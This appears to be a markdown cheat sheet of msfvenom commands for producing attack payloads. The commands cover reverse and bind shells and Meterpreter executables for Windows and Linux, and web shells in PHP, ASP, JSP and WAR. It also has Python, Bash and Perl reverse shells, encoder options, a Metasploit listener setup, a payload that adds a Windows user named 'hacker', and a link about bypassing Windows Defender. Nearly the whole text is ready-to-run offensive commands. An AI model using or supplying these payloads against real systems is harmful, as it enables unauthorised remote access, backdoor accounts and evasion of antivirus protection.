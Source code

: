 # Creating a payload
- `msfvenom -p [payload] LHOST=[listeninghost] LPORT=[listeningport]`
To view list of payloads: `msfvenom -l payloads`
To view the payload options: `msfvenom -p windows/x64/meterpreter_reverse_tcp --list-options`

# Encoding with Payload
- `msfvenom -p [payload] -e [encoder] -f [formattype] -i [iteration] <var=value> > outputfile`
## Creating an Msfvenom Payload with an encoder while removing bad charecters:
- `msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/shikata_ga_nai -b "\x0A\x0D"`
# Creating a payload using a template
- `msfvenom -p [payload] <var=value> -x [template] -f [formattype] > outputfile`

# Listening for MSfvenom Payloads:
- Metasploit:
    `msf5>use exploit/multi/handler  
    msf5>set payload windows/meterpreter/reverse_tcp  
    msf5>set lhost <IP>  
    msf5>set lport <PORT>  
    msf5> set ExitOnSession false  
    msf5>exploit -j`

# Windows Payloads
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe`
- `msfvenom -p windows/meterpreter_reverse_http LHOST=IP LPORT=PORT HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe`
- `msfvenom -p windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe > shell.exe`
- `msfvenom -p windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe`
- `msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe`
# Linux Payloads
- `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf`
- `msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf`
- `msfvenom -p linux/x64/shell_bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf`
- `msfvenom -p linux/x64/shell_reverse_tcp RHOST=IP LPORT=PORT -f elf > shell.elf`

# Add a user in windows with msfvenom:
- `msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe`

# Web Payloads
## PHP
- `msfvenom -p php/meterpreter_reverse_tcp LHOST=IP LPORT=PORT -f raw > shell.php`
- `cat shell.php | xclip -selection clipboard && echo '<?php ' | tr -d '\n' > shell.php && xclip -selection clipboard -o >> shell.php`
## ASP
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f asp > shell.asp`
## JSP
- `msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f raw > shell.jsp`
## WAR
- `msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f war > shell.war`
# Scripting Payloads
## Python
- `msfvenom -p cmd/unix/reverse_python LHOST= LPORT= -f raw > shell.py`
## Bash
- `msfvenom -p cmd/unix/reverse_bash LHOST= LPORT= -f raw > shell.sh`
## Perl
- `msfvenom -p cmd/unix/reverse_perl LHOST= LPORT= -f raw > shell.pl`


Resources:
https://hacker.house/lab/windows-defender-bypassing-for-meterpreter/